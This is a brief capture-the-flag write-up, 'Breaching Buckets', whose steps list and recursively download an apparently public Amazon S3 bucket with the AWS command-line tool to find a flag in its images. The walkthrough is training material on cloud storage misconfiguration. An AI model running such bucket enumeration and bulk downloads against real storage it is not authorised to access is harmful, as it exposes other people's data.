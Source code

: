 Breaching Buckets

```
Take a look at where this image is hosted. See if you can find the flag! Does anything stand out?
```

1. `aws s3 ls prod-cdn-user-imgs --recursive`
1. `aws s3 cp --recursive s3://prod-cdn-user-imgs .`
1. browse all pictures for flag